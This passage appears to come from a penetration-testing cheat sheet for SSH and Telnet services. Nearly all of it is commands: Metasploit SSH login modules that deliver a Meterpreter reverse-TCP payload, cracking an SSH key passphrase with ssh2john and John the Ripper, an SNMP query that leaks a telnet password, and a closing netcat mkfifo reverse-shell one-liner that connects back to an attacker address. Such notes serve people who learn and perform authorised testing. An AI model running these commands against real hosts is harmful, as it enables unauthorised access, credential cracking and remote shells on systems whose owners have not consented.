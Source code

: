 ### Metasploit password based authentication Commands

```bash
    use exploit/multi/ssh/sshexec
    set rhosts 192.168.31.205
    set payload linux/x86/meterpreter/reverse_tcp
    set username pentest
    set password 123
    show targets
    set target 1
    exploit
```

### Key based authentication (Metasploit)
```bash
use auxiliary/scanner/ssh/ssh_login_pubkey
set rhosts 192.168.31.205
set key_path /root/Downloads/ssh/id_rsa
set key_pass 123
set username pentest
exploit
```

### Key based authentication

```bash
    - SSH key-based authentication offers a secure and user-friendly method for accessing remote servers without relying on passwords. This technique employs a pair of cryptographic keys: a private key stored on your local device and a public key saved on the remote server.
    - The public and private key pair can be generated using the `ssh-keygen`
    - Stored by default in,  `/home/user/.ssh/id_rsa`
    - public key `id_rsa.pub` is copied to  `authorized_keys`
    - Give appropriete permission to key `chmod 600 id_rsa`
```

#### Login and cracking key password

```bash
    ssh -i id_rsa pentest@192.168.31.205
    ssh2john id_rsa > sshhash
    john --wordlist=/usr/share/wordlists/rockyou.txt sshhash
```

- Ref [Hacking article - PORT 22](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)
- Ref [Medium @oumasydney2000](https://medium.com/@oumasydney2000/ssh-penetration-testing-cd6570335743)
Ref [hacktricks.xyz pentesting-web-wordpress](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress)

## port 23 (TELNET)

  ### Nmap commands
    nmap -n -sV -Pn --script "*telnet* and safe" -p 23 <ip>
   ###  Getting telnet passwd
    snmpget -v 1 -c public 192.168.2.46 .1.3.6.1.4.1.11.2.3.9.1.1.13.0
   ####  port 23 telnet commads
     use ? for help
   #####  system command 
     > exec id
        uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
     > exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.66 4444 >/tmp/f    --Getting reverse shell
